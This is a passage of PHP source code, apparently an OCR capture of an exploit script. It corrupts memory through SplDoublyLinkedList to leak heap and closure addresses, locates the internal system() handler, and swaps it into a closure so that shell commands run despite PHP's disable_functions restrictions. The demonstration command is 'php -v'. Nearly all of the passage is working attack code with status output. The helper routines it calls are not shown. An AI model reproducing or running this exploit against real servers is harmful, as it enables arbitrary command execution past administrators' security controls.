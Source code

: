 ```php
}

function bypass($elementAddress, &$a) {
    global $s;
    if (!$closureChunkAddress = getClosureChunk($a, $elementAddress)) {
        die("[!]Get Closure Chunk Address Failed");
    }
    $closure_object = leak($a, $closureChunkAddress + 0x18);
    echo "[+]Closure Object: " . dechex($closure_object) . "\n";
    $closure_handlers = leak($a, $closure_object + 0x18);
    echo "[+]Closure Handler: " . dechex($closure_handlers) . "\n";
    if(!($system_address = getSystem($a, $closure_handlers))) {
        die("[!]Couldn't determine system address");
    }
    echo "[+]Find system's handler: " . dechex($system_address) . "\n";
    i2s($a, 0x08, 0x506, 7);
    for ($i = 0;$i < (0x130 / 0x08);$i++) {
        $data = leak($a, $closure_object + 0x08 * $i);
        i2s($a, 0x00, $closure_object + 0x30);
        i2s($s -> current(), 0x08 * $i + 0x100, $data);
    }
    i2s($a, 0x00, $closure_object + 0x30);
    i2s($s -> current(), 0x20, $system_address);
    i2s($a, 0x00, $closure_object);
    i2s($a, 0x08, 0x108, 7);
    echo "[+]Executing command: \n";
    ($s -> current())("php -v");
}

function canRead($maps, &$a) {
    global $s;
    if (!$chunkAddress = getPHPChunk($maps)) {
        die("[!]Get PHP Chunk Address Failed");
    }
    i2s($a, 0x08, 0x06, 7);
    if (!$elementAddress = getElement($a, $chunkAddress)) {
        die("[!]Get SplDoublyLinkedList Element Address Failed");
    }
    bypass($elementAddress, $a);
}

function cantRead(&$a) {
    global $s;
    i2s($a, 0x08, 0x06, 7);
    if (!isset($_GET["test1"]) && !isset($_GET["test2"])) {
        die("[!]Please try to get address of PHP Chunk");
    }
    if (isset($_GET["test1"])) {
        die(dechex(bomb1($a)));
    }
    if (isset($_GET["test2"])) {
        $elementAddress = bomb2($a);
    }
    if (!$elementAddress) {
        die("[!]Get SplDoublyLinkedList Element Address Failed");
    }
    bypass($elementAddress, $a);
}

$s = new SplDoublyLinkedList();
$s -> push(new Trigger());
$s -> push("Twings");
$s -> push(function($x){});
```